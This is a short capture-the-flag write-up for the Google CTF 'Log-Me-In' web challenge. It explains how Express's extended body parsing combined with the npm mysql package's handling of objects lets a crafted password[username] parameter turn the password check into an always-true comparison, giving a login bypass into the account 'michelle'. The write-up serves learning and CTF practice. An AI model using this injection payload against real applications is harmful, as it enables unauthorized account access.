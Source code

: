 ## Owner:

> CaptainFreak

#### Solved?

 - Yes

#### Solutions:

Another challenge bases on extended true for BodyParser, which will let us pass Objects and Array inro strings,

well this is advantageous to us cause npm package "mysql" will do speacial things if we pass Objects, arrays etc. in place of Strings
https://www.npmjs.com/package/mysql#escaping-query-values

Task is to bypass password check and login to michelle users account and get /flag

We can do that by

`
username=michelle&password[username]=michelle
`

which makes the query

```Select * from users where username = ? and password = ?', ['michelle', {username: 'michelle'}],```

which mysql package turns into

```Select * from users where username = michelle and password = `username` = michelle```

which evaluates to true and we bypass password check and login to michelles account.


https://github.com/csivitu/CTF-Write-ups/tree/master/Google%20CTF/Web/Log-Me-In